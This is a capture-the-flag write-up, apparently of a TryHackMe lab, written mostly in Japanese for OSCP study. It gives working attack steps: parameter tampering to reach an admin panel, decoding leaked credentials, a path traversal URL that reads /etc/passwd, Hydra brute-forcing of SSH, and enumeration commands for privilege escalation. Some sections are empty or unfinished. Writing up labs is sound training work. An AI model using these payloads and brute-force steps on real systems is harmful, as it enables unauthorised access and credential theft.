

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Linux |
| Difficulty                | Not specified |
| Attack Surface            | 22/tcp    open  ssh, 25/tcp    open  smtp, 110/tcp   open  pop3, 143/tcp   open  imap, 993/tcp   open  ssl/imap, 995/tcp   open  ssl/pop3 |
| Primary Entry Vector      | parameter-tampering, idor, lfi |
| Privilege Escalation Path | Completed up to user flag |

## Reconnaissance

### 1. PortScan

---

Initial reconnaissance narrows the attack surface by establishing public services and versions. Under the OSCP assumption, it is important to identify "intrusion entry candidates" and "lateral expansion candidates" at the same time during the first scan.

## Rustscan

💡 Why this works  
High-quality reconnaissance narrows a large attack surface into a few validated exploitation paths. Accurate service mapping prevents time loss and supports targeted follow-up testing.

## Initial Foothold

### Not implemented (or log not saved)

```

## Nmap
```
ip
```

```
nmap -sV -sT -sC $ip
```

### 2. Local Shell

---

ここでは初期侵入からユーザーシェル獲得までの手順を記録します。コマンド実行の意図と、次に見るべき出力（資格情報、設定不備、実行権限）を意識して追跡します。

### 実施ログ（統合）

```
ReviewAppUsername / admin
ReviewAppPassword / admin@!!!
SysMonAppUsername / administrator
SysMonAppPassword / S$9$qk6d#**LQU
joshua / 123456
```

最初に攻撃面を固定するため、`nmap -sV -sT -sC` で「開いているポート」「サービス種類」「初期スクリプト結果」を一気に取得します。  
OSCPでは、最初の 1 本で方針が決まることが多いので、Webだけに絞らずメール系ポートまで拾うのが重要です。  
ここでは特に `50000/tcp` の Apache と `4000/tcp` の Node.js を Web 侵入口候補として優先します。

## Nmap
```
nmap -sV -sT -sC $ip
```

```
┌──(n0z0㉿LAPTOP-P490FVC2)-[~]
└─$ nmap -sV -sT -sC $ip
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-17 20:39 JST
Nmap scan report for 10.10.19.205
Host is up (0.23s latency).
Not shown: 992 closed tcp ports (conn-refused)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
25/tcp    open  smtp     Postfix smtpd
110/tcp   open  pop3     Dovecot pop3d
143/tcp   open  imap     Dovecot imapd (Ubuntu)
993/tcp   open  ssl/imap Dovecot imapd (Ubuntu)
995/tcp   open  ssl/pop3 Dovecot pop3d
4000/tcp  open  http     Node.js (Express middleware)
50000/tcp open  http     Apache httpd 2.4.41 ((Ubuntu))
Service Info: Host: mail.filepath.lab; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

次に `ffuf` で 50000 番ポートのコンテンツ列挙を行い、認証回避やLFIの足掛かりになるパスを探します。  
`-recursion` と `-recursion-depth 1` により、見つかったディレクトリ直下まで追加で探索できます。  
OSCP実戦でも `uploads`、`admin`、`api`、`backup` は優先チェック対象です。

## FFuF
```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-1.0.txt -u http://$ip:50000/FUZZ -recursion -recursion-depth 1 -ic -c
```

```
┌──(n0z0㉿LAPTOP-P490FVC2)-[~]
└─$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-1.0.txt -u http://$ip:50000/FUZZ -recursion -recursion-depth 1 -ic -c
...
templates               [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 238ms]
phpmyadmin              [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 244ms]
uploads                 [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 239ms]
```

## 2-1. Parameter Tampering で管理UIへ到達

通常ユーザーでアクセスした状態から、リクエストパラメータを `isAdmin=true` に改変して管理者画面へ遷移できるかを検証します。  
これは典型的な「クライアント側の値を信頼している」実装不備の確認で、OSCPのWeb問題でも頻出です。  
画面差分（メニュー増加、管理機能表示）が出るかどうかを証跡として残します。


*Caption: Screenshot captured during include attack workflow (step 1).*


*Caption: Screenshot captured during include attack workflow (step 2).*


*Caption: Screenshot captured during include attack workflow (step 3).*


*Caption: Screenshot captured during include attack workflow (step 4).*

## 2-2. Admin API から資格情報を取得

管理UIから呼べる API レスポンスが Base64 文字列だったため、デコードして平文資格情報の有無を確認します。  
この段階では「その資格情報がどのサービスで再利用されるか」が重要で、Web/SSH/メールへ横展開できるかを同時に評価します。  
取得したユーザー名-パスワードはこの後のログイン試行とブルートフォースの基準データになります。


*Caption: Screenshot captured during include attack workflow (step 5).*

```
echo "eyJSZXZpZXdBcHBVc2VybmFtZSI6ImFkbWluIiwiUmV2aWV3QXBwUGFzc3dvcmQiOiJhZG1pbkAhISEiLCJTeXNNb25BcHBVc2VybmFtZSI6ImFkbWluaXN0cmF0b3IiLCJTeXNNb25BcHBQYXNzd29yZCI6IlMkOSRxazZkIyoqTFFVIn0=" | base64 --decode
```

```
┌──(n0z0㉿LAPTOP-P490FVC2)-[~]
└─$ echo "eyJSZXZpZXdBcHBVc2VybmFtZSI6ImFkbWluIiwiUmV2aWV3QXBwUGFzc3dvcmQiOiJhZG1pbkAhISEiLCJTeXNNb25BcHBVc2VybmFtZSI6ImFkbWluaXN0cmF0b3IiLCJTeXNNb25BcHBQYXNzd29yZCI6IlMkOSRxazZkIyoqTFFVIn0=" | base64 --decode
{"ReviewAppUsername":"admin","ReviewAppPassword":"admin@!!!","SysMonAppUsername":"administrator","SysMonAppPassword":"S$9$qk6d#**LQU"}
```

## 2-3. `profile.php?img=` の Path Traversal で `/etc/passwd` を取得

次に画像読み込み機能がサーバ側ファイルを直接参照していないか確認するため、`img` パラメータへ段階的に `../` を注入します。  
目的は「任意ファイル読み取り（LFI）」の成立可否の確認で、成立すればユーザー列挙と設定ファイル取得に進めます。  
ここでは `/etc/passwd` の取得成功により、SSHターゲットユーザーの候補を `joshua` に絞り込めました。


*Caption: Screenshot captured during include attack workflow (step 6).*


*Caption: Screenshot captured during include attack workflow (step 7).*


*Caption: Screenshot captured during include attack workflow (step 8).*

```
http://10.10.203.168:50000/profile.php?img=....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2F....%2F%2Fetc%2Fpasswd
```

## 2-4. Hydra で SSH 資格情報を特定

`/etc/passwd` で抽出した実在ユーザー `joshua` に対し、弱いパスワードの可能性を検証するため `hydra` を実行します。  
OSCPでは「ユーザー名確定後の最小限ブルートフォース」は有効な戦術で、無差別試行ではなく対象を絞るのがポイントです。  
成功時は `login/password` が明示されるため、そのまま SSH ログインへ移行します。

```
hydra -l joshua -P /usr/share/wordlists/fasttrack.txt $ip ssh
```

```
┌──(n0z0㉿LAPTOP-P490FVC2)-[~]
└─$ hydra -l joshua -P /usr/share/wordlists/fasttrack.txt $ip ssh
[22][ssh] host: 10.10.19.205   login: joshua   password: 123456
```

## 2-5. SSH ログインと User Flag 取得

認証情報確定後は即 SSH 接続し、現在地-権限-主要ファイルを短時間で確認します。  
今回の目的は user flag 取得までなので、対象ファイルを `cat` して証跡を残します。  
本番試験ではこの直後に `sudo -l`、SUID、cron、capabilities へ進むのが定石です。

```
ssh joshua@$ip
cat /var/www/html/505eb0fb8a9f32853b4d955e1f9123ea.txt
```

```
joshua@filepath:/var/www/html$ cat 505eb0fb8a9f32853b4d955e1f9123ea.txt
THM{505eb0fb8a9f32853b4d955e1f9123ea}
```

この記録は user flag 取得までを対象（root 手順は別途追記予定）。  
ただし OSCP 対策として、次の順で必ず確認すると再現性が上がります。

```
id
sudo -l
find / -perm -4000 -type f 2>/dev/null
getcap -r / 2>/dev/null
ps aux | grep -E 'cron|root' 
ls -la /etc/cron* /var/spool/cron 2>/dev/null
```

上記で異常設定（NOPASSWD、危険SUID、書き込み可能スクリプト、誤設定capability）が見つかれば、権限昇格経路の候補になります。

```
flowchart LR
    subgraph SCAN["🔍 SCAN"]
        direction TB
        S1["nmap\n22/25/110/143/993/995/4000/50000"]
        S2["Found ffuf\n/templates /uploads"]
        S1 --> S2
    end

    subgraph INITIAL["💥 Initial Intrusion"]
        direction TB
        I1["isAdmin=true\nAccess Admin UI"]
        I2["Get Admin API\nGet credentials by base64 decryption"]
        I3["profile.php?img=...\npath traversal to get /etc/passwd"]
        I4["hydra -l joshua ... ssh\n joshua/123456"]
        I5["SSH login\nuser flag acquisition"]
        I1 --> I2 --> I3 --> I4 --> I5
    end

    subgraph PRIVESC["⬆️ Privilege Escalation"]
        direction TB
        P1["Complete up to user flag"]
    end

    SCAN --> INITIAL --> PRIVESC

💡 Why this works  
Initial access succeeds when enumeration findings are turned into a practical exploit chain. Capturing credentials, file disclosure, or direct RCE creates reliable pivot points for privilege escalation.

## Privilege Escalation

### 3.Privilege Escalation

---

During the privilege escalation phase, we will prioritize checking for misconfigurations such as `sudo -l` / SUID / service settings / token privilege. By starting this check immediately after acquiring a low-privileged shell, you can reduce the chance of getting stuck.

```bash
id
sudo -l
find / -perm -4000 -type f 2>/dev/null
getcap -r / 2>/dev/null
ps aux | grep -E 'cron|root' 
ls -la /etc/cron* /var/spool/cron 2>/dev/null
```

💡 Why this works  
Privilege escalation depends on chaining local weaknesses such as sudo misconfiguration, weak file permissions, or credential reuse. If a GTFOBins technique is used, the mechanism is that an allowed binary executes a child process or shell without dropping elevated effective privileges.

## Credentials

```text
ReviewAppUsername / admin
ReviewAppPassword / admin@!!!
SysMonAppUsername / administrator
SysMonAppPassword / S$9$qk6d#**LQU
joshua / 123456
[22][ssh] host: 10.10.19.205   login: joshua   password: 123456
```

## Lessons Learned / Key Takeaways

### 4.Overview

---




## References

- nmap
- rustscan
- ffuf
- hydra
- sudo
- ssh
- cat
- grep
- find
- base64
- php
- GTFOBins
